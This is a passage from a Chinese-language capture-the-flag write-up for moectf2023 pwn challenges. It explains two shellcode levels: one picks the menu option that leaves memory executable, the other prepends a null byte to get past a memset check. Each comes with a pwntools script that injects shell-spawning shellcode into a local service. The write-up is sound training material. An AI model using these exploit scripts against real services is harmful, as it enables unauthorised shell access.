 ![image-20230822215801544](./moectf2023-pwn-wp.assets/image-20230822215801544.png)

在完成buf的复制后程序会修改内存页的权限，并跳转到对应的地址执行。从上我们可以看到只有paper4在最后将权限修改为了可读可写可执行的权限，所以我们应该选择paper4构造shellcode。

```python
from pwn import *

context(os="linux", arch="amd64") 
sh = remote("localhost", 36865)
parent_path = "/home/user/tmp/"

sh.sendline(b'4')
sleep(2)
sh.sendline(asm(shellcraft.sh()))
sh.interactive()
```



## shellcode_level2

用IDA打开可以看到程序中间进行了判断，当buf的第一个字节不为0时会进行memset。所以我们在构造的shellcode前加上一个b'\x00'字节即可。

![image-20230822220328238](./moectf2023-pwn-wp.assets/image-20230822220328238.png)



exp:

```python
from pwn import *

context(os="linux", arch="amd64") 
sh = remote("localhost", 36865)
parent_path = "/home/user/tmp/"

sh.sendline(b'\x00' + asm(shellcraft.sh()))
sh.interactive()
```
